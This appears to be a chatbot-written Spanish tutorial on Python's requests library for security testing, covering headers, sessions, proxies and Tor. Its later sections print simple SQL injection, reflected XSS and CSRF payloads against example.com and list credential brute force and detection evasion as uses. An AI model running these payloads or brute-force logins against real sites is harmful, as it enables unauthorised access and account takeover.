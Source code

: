 La biblioteca `requests` de Python es una herramienta fundamental para interactuar con servicios web mediante HTTP. En ciberseguridad, su uso es esencial para realizar pruebas de penetración, scraping, manipulación de encabezados, explotación de vulnerabilidades y automatización de interacciones con APIs.

---

## 📌 **Conceptos Claves de Requests en Ciberseguridad**
1. **Realizar peticiones GET y POST** → Obtener información de sitios web o enviar datos.
2. **Manipulación de Headers** → Modificar `User-Agent`, `Referer`, `Cookies`, etc.
3. **Gestión de Sesiones** → Mantener la autenticación en múltiples peticiones.
4. **Proxies y Tor** → Enviar tráfico a través de proxys para anonimato.
5. **Explotación de vulnerabilidades** → SQL Injection, XSS, CSRF.
6. **Extracción de información** → Web Scraping sin Selenium.

---

## 🔹 **1. Peticiones GET y POST Básicas**
### 🔹 GET: Extraer información de una página
```python
import requests

url = "https://example.com"
response = requests.get(url)

print(f"Status Code: {response.status_code}")
print(f"Contenido: {response.text[:500]}")  # Muestra solo los primeros 500 caracteres
```
🔹 **Usos en ciberseguridad**:
- Obtener información sobre servidores (`Server`, `X-Powered-By`, etc.).
- Extraer contenido de una página web para analizar vulnerabilidades.

---

### 🔹 POST: Enviar datos a un servidor
```python
url = "https://example.com/login"
data = {
    "username": "admin",
    "password": "password123"
}
response = requests.post(url, data=data)

print(f"Status Code: {response.status_code}")
print(f"Respuesta: {response.text[:500]}")
```
🔹 **Usos en ciberseguridad**:
- Realizar **fuerza bruta** de credenciales.
- Enviar formularios automáticamente.
- Explorar posibles **SQL Injection**.

---

## 🔹 **2. Manipulación de Headers**
Modificar los encabezados HTTP es esencial para pruebas de seguridad.
```python
headers = {
    "User-Agent": "Mozilla/5.0 (Windows NT 10.0; Win64; x64)",
    "Referer": "https://example.com",
    "Cookie": "sessionid=1234567890",
    "X-Forwarded-For": "192.168.1.100"  # Para suplantar IP
}

url = "https://example.com/profile"
response = requests.get(url, headers=headers)

print(response.text)
```
🔹 **Usos en ciberseguridad**:
- Evadir protecciones por `User-Agent` (parecer un navegador real).
- Simular tráfico de otro origen (`Referer` falso).
- Pruebas de **IP Spoofing** con `X-Forwarded-For`.

---

## 🔹 **3. Autenticación y Mantenimiento de Sesión**
Cuando una web requiere autenticación, podemos usar `requests.Session()`.

```python
session = requests.Session()

login_url = "https://example.com/login"
data = {"username": "admin", "password": "password123"}

# Autenticarse
session.post(login_url, data=data)

# Acceder a una página protegida
protected_url = "https://example.com/dashboard"
response = session.get(protected_url)

print(response.text)
```
🔹 **Usos en ciberseguridad**:
- **Bypass de autenticaciones** automatizando sesiones.
- **Scraping de contenido protegido** sin tener que iniciar sesión manualmente.

---

## 🔹 **4. Uso de Proxies y Tor**
Para mejorar el anonimato, podemos usar proxys o Tor.

### 🔹 **Usar un Proxy HTTP**
```python
proxies = {
    "http": "http://127.0.0.1:8080",  # Proxy BurpSuite
    "https": "http://127.0.0.1:8080"
}

url = "https://example.com"
response = requests.get(url, proxies=proxies)

print(response.text)
```
🔹 **Usos en ciberseguridad**:
- Redirigir tráfico a **BurpSuite** para análisis.
- Evitar **detección de IPs** al cambiar proxys.

---

### 🔹 **Usar Tor para anonimato**
Requiere tener Tor en ejecución (puerto 9050).

```python
proxies = {
    "http": "socks5h://127.0.0.1:9050",
    "https": "socks5h://127.0.0.1:9050"
}

url = "http://check.torproject.org"  # Página que verifica si usamos Tor
response = requests.get(url, proxies=proxies)

print(response.text)
```
🔹 **Usos en ciberseguridad**:
- **Anonimato** en pruebas de pentesting.
- Acceder a sitios bloqueados por IP.

---

## 🔹 **5. Explotación de Vulnerabilidades**
### 🔹 **SQL Injection Automático**
```python
vulnerable_url = "https://example.com/login"
payload = {"username": "admin' OR '1'='1", "password": "password"}

response = requests.post(vulnerable_url, data=payload)

if "Welcome" in response.text:
    print("¡Posible SQL Injection detectado!")
else:
    print("No parece vulnerable.")
```
🔹 **Usos en ciberseguridad**:
- Detectar **inyecciones SQL** en formularios.
- Automatizar ataques SQL Injection.

---

### 🔹 **XSS Injection (Cross-Site Scripting)**
```python
xss_url = "https://example.com/search"
payload = {"q": "<script>alert('XSS')</script>"}

response = requests.get(xss_url, params=payload)

if "<script>alert('XSS')</script>" in response.text:
    print("¡Posible XSS detectado!")
```
🔹 **Usos en ciberseguridad**:
- Identificar páginas vulnerables a **XSS reflejado**.

---

### 🔹 **CSRF Attack (Cross-Site Request Forgery)**
Si un sitio no implementa protección CSRF, podemos automatizar una petición fraudulenta.

```python
csrf_url = "https://example.com/change-email"
data = {"email": "attacker@example.com"}

response = requests.post(csrf_url, data=data)

print(response.text)
```
🔹 **Usos en ciberseguridad**:
- Simular ataques de **CSRF** si no hay validación de tokens.

---

## 📌 **Resumen**
| Técnica | Uso en Ciberseguridad |
|---------|-----------------------|
| **GET / POST** | Extraer datos y enviar formularios automáticamente. |
| **Headers Modificados** | Evadir detecciones, manipular tráfico. |
| **Sesiones** | Mantener autenticaciones. |
| **Proxys y Tor** | Anonimato y pruebas en diferentes ubicaciones. |
| **SQL Injection** | Detectar vulnerabilidades en bases de datos. |
| **XSS** | Identificar vulnerabilidades de ejecución de scripts. |
| **CSRF** | Simular ataques de falsificación de solicitudes. |

---

¿Quieres que te ayude a crear un script más completo para automatizar alguna de estas pruebas? 🚀